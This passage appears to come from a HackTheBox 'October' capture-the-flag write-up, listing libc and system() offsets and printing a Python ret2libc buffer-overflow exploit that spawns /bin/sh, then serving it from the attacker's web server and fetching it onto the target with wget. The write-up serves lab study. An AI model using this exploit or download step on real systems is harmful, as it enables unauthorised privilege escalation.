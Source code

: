 ![values-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/October/img/values-28.png)

So here are all the offset values we need:

+ libc: 0xb75a2000
+ system(): 0x00040310
+ exit(): 0x00033260
+ /bin/sh: 0x00162bac


Therefore, our exploit should look something like this:

```python
#!/usr/bin/python2.7

import struct 
import sys

EIP_OFFSET = 112

libc_start = 0xb75a2000
binsh_offset = 0x00162bac
system_offset = 0x00040310
exit_offset = 0x00033260

system_addr = libc_start + system_offset
exit_addr = libc_start + exit_offset
binsh_addr = libc_start + binsh_offset

payload = ""

while len(payload) < EIP_OFFSET:
    payload += "\x90" # NOP

payload += struct.pack("<I",system_addr)
payload += struct.pack("<I",exit_addr)
payload += struct.pack("<I",binsh_addr)


sys.stdout.write(payload)
``` 

I host the exploit up using a python web server:

```python
python3 -m http.server 80
```

And download the exploit from the target using:

```bash
cd /tmp
wget http://10.10.14.63/exploit.py; chmod +x exploit.py
```
